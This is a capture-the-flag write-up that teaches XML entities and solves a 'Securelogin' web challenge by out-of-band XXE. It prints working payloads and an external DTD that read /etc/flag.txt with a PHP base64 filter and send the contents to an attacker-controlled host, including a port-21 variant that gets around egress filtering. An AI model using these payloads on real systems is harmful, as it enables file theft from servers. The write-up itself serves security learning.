









## Generation Z Challenge (challenge.fi) | Web | Securelogin
##### Author: Sanduuz | Date: 06.06.2021
---
### Challenge details:
* Points: 299
* Solves: 17
* Difficulty: Hard (?)
* Description:

> The development team has made a proof of concept of the new Securelogin site. Somebody managed to put it to the public internet, but dev team is so confident that they don't think it matters so they left it open!
>
> Can you prove them wrong?! Are you the one who fetches the flag from /etc/flag.txt - file?
>
> You can find the challenge from: http://securelogin.challenge.fi:8880/

> Note: This challenge is based on a real world example of a finding from a bug bounty target. Pretty much 1=1, but some clues maybe around what to do...

---

### Writeup:

**TL;DR**\
**Out-of-band XML External Entity (OOB-XXE) attack to read contents of /etc/flag.txt on server.**

---

### Step one - Reconnaissance

The challenge starts with a website that looks like this:


First we should take a look at the source code of the website in order to see what it might be hiding. This can be achieved by clicking the right mouse button and choosing `View page source` or simply with the keyboard shortcut <kbd>CTRL</kbd>+<kbd>U</kbd>.

The source code of the frontpage:



As we can see, the source code of the wegpage is hiding a comment left behind by the developer. The comment starts with `Debug info, remember to remove before moving to prod:`

It can clearly be seen that this comment was not removed before moving to production. The debug information now gives us attackers some extra information about the service that can be leveraged.

The debug information seems to be a HTTP POST request to `xml.php` residing on the server itself. Some data is sent with the request in a field labeled `xml`. The data seems to be url encoded base64 data.

Decoding this data sent in the debug request results in some XML data.



The XML data sent with the request starts with a XML declaration that is used to specify metadata for the parser. This metadata includes xml version and character encoding to be used by the parser.

After the XML declaration there is the root element `<creds>` (Elements are sometimes also referred as tags). This root tag has 2 child-tags: `<user>` and `<pass>`.

So it seems that the `xml.php` file is used for some kind of XML-based authentication system running on the server.

Time to dig deeper and start experimenting by ourselves.

Let us traverse to the path `/xml.php` on the server to see whether the file still exists after moving to production.



We did not get a 404-error, which means that the file still exists. The response returns an error message stating that username or password was not found. This is because instead of sending a HTTP POST request with the XML data, a HTTP GET request was sent to the server.

Let us send a simple HTTP POST request containing the XML data with username and password "admin" to the server for test purposes. We can easily achieve this with the help of Python3.

```python
import requests                   # Import requests module for making HTTP requests
import base64                     # Import base64 for encoding our data
from urllib.parse import quote    # Import quote from urllib.parse for urlencoding

# Specify Content-Type header to correspond the servers expectations.
headers = {
  "Content-Type":"application/x-www-form-urlencoded"
}

# Our XML data to be sent with the request
xml_data = b"""<?xml version="1.0" encoding="ISO-8859-1"?>
<creds>
	<user>admin</user>
	<pass>admin</pass>
</creds>"""

# Encode data and set data to be sent with the "xml" field
encoded_data = quote(base64.b64encode(xml_data))
post_data = u"xml="+encoded_data

# Send request to the webpage with set headers and data
request = requests.post("http://securelogin.challenge.fi:8880/xml.php", headers=headers, data=post_data)

# Print server response
print(request.text)
```

Running the script `python3 send_request.py` lets us see the server response when trying to authenticate with `admin:admin` credentials.



Yet again the same error as previously. 

The server has to understand the data that we supply in the form of XML. That means that there must be an underlying XML parser parsing our input on the server.

What if we try to trick the XML parser into crashing? That might give us some extra information that could come in handy. We can do that by changing our XML data in a way that the username and/or password contains illegal characters that would usually throw off the XML parser.

We can check that by using the same script, but this time let's change the credentials from `admin` to ```!@#$%^&*()_+{}><;:'"`\\/```


Still nothing... 

What about completely changing the XML body?
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<a>
	<b>Trying Harder!</b>
</a>
```


Nope, still the same error. There is no more new information available it seems. We just need to `Try Harder!`

<br />

### Step two - Getting ready

What we know so far is that the webserver has a XML based authentication system. That means that there must be an underlying XML parser that parses the data on the server.

What if we try to attack the webserver through the XML parser itself? One pretty common vulnerability regarding XML parsers is XML External Entity Attack (XXE), but what does this mean in practice?

XML contains entities, which are basically like variables. There are 3 types of entities: `General`, `Parameter` and `Predefined`. The most common entity is the `General entity`. They can be defined in the Document Type Definition (DTD) and then be referenced later on in the XML body. Let's take a look at a simple example with General Entities.

Here is the original XML data sent with the debug request:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<creds>
	<user>username</user>
	<pass>password</pass>
</creds>
```

Here is the same XML data, but this time the credentials are passed to the body as a XML entities:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE Credentials [
	<!ENTITY user "username">
	<!ENTITY pass "password">
]>
<creds>
	<user>&user;</user>
	<pass>&pass;</pass>
</creds>
```

First an internal Document Type Definition (DTD) is created in the beginning of the file (after the XML declaration). This is done with the `!DOCTYPE` keyword.

Inside of the DTD, two entities are defined: `user` and `pass`. Entity declaration inside of the DTD is done with the `!ENTITY` keyword.

These 2 entities are then referenced in the `<user>` and `<pass>` tags inside of the XML body. The syntax for referencing a XML entity is `&entityname;`

When the XML parser parses these 2 scenarios the result will be the same even though the XML body looks different.

<br />

Now that we know what XML general entities are, let's take a look at XML parameter entities.

XML parameter entity is a special type of entity that is only allowed inside a DTD. They are more flexible and can be used for example to create an entity that has a general entity as the value.

Let's take a look at an example using XML parameter entities.

We can use the same XML snippet used in the previous example with some slight alterations:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE Credentials [
	<!ENTITY % user "<!ENTITY user 'username'>">
	<!ENTITY % pass "<!ENTITY pass 'password'>">
	%user;
	%pass;
]>
<creds>
	<user>&user;</user>
	<pass>&pass;</pass>
</creds>
```

So it seems that the value of the parameter entity is evaluated by the parser when it is referenced later on in the DTD. This comes in handy, especially for us attackers.

The third type of XML entities is `predefined`. They are (like the name suggests) predefined and they are used for example parsing special characters. We can ignore those in this scenario.

<br />

The usage of XML parameter entities is not limited to just hardcoding values for general entities. With the help of the `SYSTEM` keyword the XML parser can retrieve data from local and remote sources.

In addition to inline Document Type Definitions, DTD's can also be external. This means that external DTD's can be retrieved and used with the help of XML parameter entities.

Here's a simple example using external DTD:

Contents of external DTD:
```xml
<!ENTITY user "username">
<!ENTITY pass "password">
```

XML Data:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE Credentials [
	<!ENTITY % dtd SYSTEM "http://example.com/external.dtd">
	%dtd;
]>
<creds>
	<user>&user;</user>
	<pass>&pass;</pass>
</creds>
```

This would retrieve the external DTD file from example.com. After it has been retrieved, it is referenced inside of the local DTD. This would then evaluate the contents of the external DTD file and the general entities `user` and `pass` would now be declared.

Now that the general entities are declared, they can be referenced in the XML body.

In this example the parser read the contents of external.dtd, but it could just as well read other files including local files. This really could come in handy since we need to read the contents of the `/etc/flag.txt` file.

<br />

### Step three - Exploitation

Now that we have established some prerequisites regarding XML we can proceed to exploiting XXE.

There are mainly 3 types of XXE attacks. Inband XXE, Error Based XXE and Out-of-Band XXE (OOB-XXE).

In an Inband XXE the result will be directly shown to the user. Previous testing shows us that no output is rendered to the webpage.

As we previously tried to authenticate as admin, we were greeted with the error message `Username or password not found! Try Harder!`. As we can see, we get no output based on our input. This means that we can leave out Inband XXE, since that doesn't seem to be a possibility in this scenario.

The second type of XXE attack is error based, but as we already noticed before, the error message is always the same whatever our input is. This renders error based XXE unusable.

So we are only left with Out-of-Band XXE. Let's take a deeper dive into OOB-XXE to see how we can use it to exploit the server.

Since we are working with Out-of-Band XXE we cannot see any results until we have completely fabricated a working exploit.

Now how would we be able to see the file contents of `/etc/flag.txt` when no data is rendered to the screen? One common method to overcome this problem is to exfiltrate data in the form of HTTP requests.

When exfiltrating data over internet, it's a good practice to encode the data in some way to maintain the integrity of the data.

We just need the server to do a simple HTTP GET request passing the encoded file contents as a GET parameter to a webserver that we have access to. The data encoding can be done for example with PHP's base64 filter.

Let's see how that looks in practice:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
	<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

This reads the file contents of `/etc/flag.txt` and converts them into base64. The encoded data is then saved to a parameter entity `flag`. After that the XXE parameter entity defines a general entity, which is later on referenced in the XML body.

This should trigger the server to make a HTTP GET request to our webserver passing the encoded file contents as a GET parameter.

Let's quickly set up our webserver with `php -S 0.0.0.0:80`



However, when we send that XML document to the server the same old bland response `Username or password not found! Try Harder!` is sent back and no connection is received on our webserver. Why does this happen?

Well according to the [World Wide Web Consortium's (W3C) recommendation on XML](https://www.w3.org/TR/2006/REC-xml-20060816/REC-xml-20060816.xml): parameter entity references must not occur within markup declarations in the internal DTD subset; However, that does not apply to references that occur in external parameter entities.



Our current exploit indeed does have parameter entity reference within a markup declaration in the internal DTD subset right here:
`<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">`

Luckily this does not affect external parameter entities, so we can just use an external DTD.

Let's start by creating a malicious DTD file that we are going to use:
```xml
<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]/?flag=%flag;'>">
```

Then let's create an XML document that will retrieve our external DTD:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % dtd SYSTEM "http://[IP REDACTED]/malicious.dtd">
	%dtd;
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

Now this should surely work.

Let's spin up our server once again and send our payload.


Hmm... There's nothing coming through... Is the server really vulnerable to XXE?

Before giving up, there's one last thing that we should try.

The challenge description said that this challenge was based on a real world example of a finding from a bug bounty target. In these realistic scenarios the developers (hopefully) try to make their systems secure. This means that they might use different kinds of external protections e.g. Web Application Firewall (WAF).

There is a possibility that the server has a WAF instance filtering outbound traffic on port 80. We can simply fuzz other common ports to see if this hypothesis stands. If the WAF is configured in a way that it filters outbound traffic only on port 80, there is a possibility that we could exfiltrate the data over another port.

Some common ports that should be fuzzed include ports 21 (FTP), 22 (SSH), 23 (TELNET), 25 (SMTP), etc.

Let's modify our payload a bit and try some of the common ports.

Starting out with port 21, our external DTD looks like this:
```xml
<!ENTITY % flag SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt">
<!ENTITY % XXE "<!ENTITY exfil SYSTEM 'http://[IP REDACTED]:21/?flag=%flag;'>">
```

and payload like this:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE XXE [
	<!ENTITY % dtd SYSTEM "http://[IP REDACTED]:21/malicious.dtd">
	%dtd;
	%XXE;
]>
<creds>
	&exfil;
</creds>
```

This time when starting up our webserver, instead of the standard HTTP port 80, we need to bind it to listen on port 21.

`php -S 0.0.0.0:21`



Time to send our payload and hope for the best...

Now look at that!



We can see that the server retrieved our malicious DTD file and shortly after that made a GET request back to our server with some base64 data.

Let's decode that base64 data and see if it actually is the flag.



It is the flag!

<details>
	<summary>Flag:</summary>
	
	flag{T34m_R0T_W4s_H3rE!}
</details>

<br />

### Summary

The challenge was great since it was realistic and had multiple problems to overcome in order to retrieve the flag. It really gives a taste of what cybersecurity in reality is; Problem solving in small pieces, learning new things & most importantly not giving up.

It was a tough challenge even to the more advanced cyber wizards, but in the end it was very enjoyable.

The challenge taught me a whole lot of new things in its versatile nature.
